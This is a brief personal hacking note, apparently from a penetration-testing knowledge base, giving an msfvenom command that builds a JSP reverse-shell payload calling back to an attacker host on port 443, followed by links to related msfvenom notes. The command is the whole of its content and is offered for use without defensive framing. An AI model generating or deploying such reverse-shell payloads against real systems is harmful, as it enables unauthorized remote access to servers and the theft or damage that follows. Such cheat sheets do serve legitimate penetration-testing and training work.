# MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

# References
- [20221003150777](/zet/20221003150777/) MSFVENOM
- [20221003150759](/zet/20221003150759/) MSFVENOM Java Server Pages (.jsp) As .war
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

